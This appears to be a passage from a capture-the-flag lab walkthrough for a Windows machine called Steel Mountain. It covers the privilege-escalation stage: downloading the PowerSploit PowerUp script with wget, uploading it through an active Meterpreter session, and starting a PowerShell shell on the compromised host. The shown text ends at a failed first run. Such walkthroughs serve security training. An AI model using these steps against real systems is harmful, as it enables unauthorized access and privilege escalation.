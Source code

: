 Now that you have an initial shell on this Windows machine as Bill, we can further enumerate the machine and escalate our privileges to root!
Answer the questions below

To enumerate this machine, we will use a powershell script called PowerUp, that's purpose is to evaluate a Windows machine and determine any abnormalities - "PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations."

You can download the script [here](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1). Now you can use the upload command in Metasploit to upload the script

![](https://i.imgur.com/Zqipdba.png)

```
─(kali㉿kali)-[~/Downloads/steel_mountain]
└─$ wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
--2022-08-25 15:01:58--  https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.109.133, 185.199.108.133, 185.199.111.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 600580 (587K) [text/plain]
Saving to: ‘PowerUp.ps1’

PowerUp.ps1        100%[==============>] 586.50K  --.-KB/s    in 0.06s   

2022-08-25 15:01:59 (10.0 MB/s) - ‘PowerUp.ps1’ saved [600580/600580]



```

To execute this using Meterpreter, I will type load powershell into meterpreter. Then I will enter powershell by entering powershell_shell:

![|444](https://i.imgur.com/1IEi13Y.png)

```
meterpreter > pwd
C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
meterpreter > cd "C:\Users\bill\Desktop"
meterpreter > dir
Listing: C:\Users\bill\Desktop
==============================

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
100666/rw-rw-rw-  2238690  fil   2022-08-25 14:57:09 -0400  PowerUp.ps1
100666/rw-rw-rw-  282      fil   2019-09-27 07:07:07 -0400  desktop.ini
100666/rw-rw-rw-  70       fil   2019-09-27 08:42:38 -0400  user.txt

meterpreter > upload PowerUp.ps1
[*] uploading  : /home/kali/Downloads/steel_mountain/PowerUp.ps1 -> PowerUp.ps1
[*] Uploaded 586.50 KiB of 586.50 KiB (100.0%): /home/kali/Downloads/steel_mountain/PowerUp.ps1 -> PowerUp.ps1
[*] uploaded   : /home/kali/Downloads/steel_mountain/PowerUp.ps1 -> PowerUp.ps1
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell
PS > ..\PowerUp.ps1
ERROR: ..\PowerUp.ps1 : The term '..\PowerUp.ps1' is not recognized as the name of a cmdlet, function, script file, or
ERROR: operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try
```